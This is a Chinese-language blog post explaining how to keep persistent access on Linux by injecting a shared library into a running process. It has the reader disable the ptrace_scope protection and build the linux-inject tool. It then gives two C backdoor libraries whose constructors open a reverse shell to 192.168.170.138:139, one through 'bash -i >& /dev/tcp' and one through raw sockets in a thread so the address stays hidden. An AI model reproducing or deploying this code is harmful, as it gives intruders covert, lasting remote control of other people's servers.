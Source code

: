 ```yaml
---
title: Linux权限维持之进程注入
layout: post
date: '2020-01-01'
categories: C++/C
permalink: "/archivers/2020-01-01/2"
description: 通过进程注入技术，能够使得动态链接库被加载到一个正在运行的进程，因此较为隐蔽。
---
```


## 说明

通过进程注入技术，能够使得动态链接库被加载到一个正在运行的进程，因此较为隐蔽。进程注入通过调用`ptrace()`实现了与Windows平台下相同作用的API 函数`CreateRemoteThread()`。在许多Linux发行版中，内核的默认配置文件`/proc/sys/kernel/yama/ptrace_scope`限制了一个进程除了`fork()`派生外，无法通过`ptrace()`来操作另外一个进程。

要注入进程前，需要关闭这个限制（Root权限）：

```echo 0 | sudo tee /proc/sys/kernel/yama/ptrace_scope```

![1.png](/img/20191226185314676250632.png)

在Github上已经有了关于进程注入的实现代码：`https://github.com/gaffe23/linux-inject`

下载后进入项目目录，执行：make x86_64 即可编译64位的linux-inject。



![2.png](/img/20191226185351699182505.png)


确认编译是否正常：

![3.png](/img/20191226185413359928580.png)

获取sample-target的PID后，调用inject程序来注入sample-library.so，注入成功会输出“I just got loaded”。
接下来，需要更改sample-target.c文件，编译成需要的权限维持动态链接库。


```c
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
#include <stdlib.h>


void shell()
{
	printf("I just got loaded\n");
    system("bash -c \"bash -i >& /dev/tcp/192.168.170.138/139 0>&1\"");
   
}


__attribute__((constructor))
void loadMsg()
{
   shell();
}

```

通过如下命令编译so文件：

```
clang -std=gnu99 -ggdb -D_GNU_SOURCE -shared -o u9.so -lpthread -fPIC U3.c

```

![4.png](/img/2019122618551870405671.png)


编译成so文件成功后的测试效果：

![5.png](/img/20191226185538309533411.png)

在Kali Linux这边获得了bash shell：

![6.png](/img/20191226185557972580966.png)

此时发现测试程序的主线程被bash阻塞了，于是可以采用多线程技术，将后门代码与正常逻辑分离执行。

![7.png](/img/20191226185617404148798.png)

但利用这种方式在执行的过程中，查看进程参数还是会被查看到IP地址和端口：

![8.png](/img/20191226185639411703567.png)

查看到IP与端口：

![9.png](/img/20191226185658811703984.png)

再继续改进代码，采用socket套接字的方式来反弹shell：

```c
#include <stdio.h>
#include <dlfcn.h>
#include <stdlib.h>
#include <pthread.h>
#include <stdio.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <netdb.h>


static void * hello()
{

    struct sockaddr_in server;
    int sock;
    char shell[]="/bin/bash";
    if((sock = socket(AF_INET, SOCK_STREAM, 0)) == -1) {
        return NULL;
    }

    server.sin_family = AF_INET;
    server.sin_port = htons(139);
    server.sin_addr.s_addr = inet_addr("192.168.170.138");
    if(connect(sock, (struct sockaddr *)&server, sizeof(struct sockaddr)) == -1) {
        return NULL;
    }
    dup2(sock, 0);
    dup2(sock, 1);
    dup2(sock, 2);
    execl(shell,"/bin/bash",(char *)0);
    close(sock);
	printf("I just got loaded\n");
    return NULL;
}

__attribute__((constructor))
void loadMsg()
{
    pthread_t thread_id;
    pthread_create(&thread_id,NULL,hello,NULL);
}


```


执行效果：

![10.png](/img/2019122618574167705879.png)


Kali Linux获得bash shell：

![11.png](/img/20191226185758638482479.png)

在实战应用中，需要关闭ptrace的限制，然后注入.so到某个服务进程中，这样达到权限维持的目的。


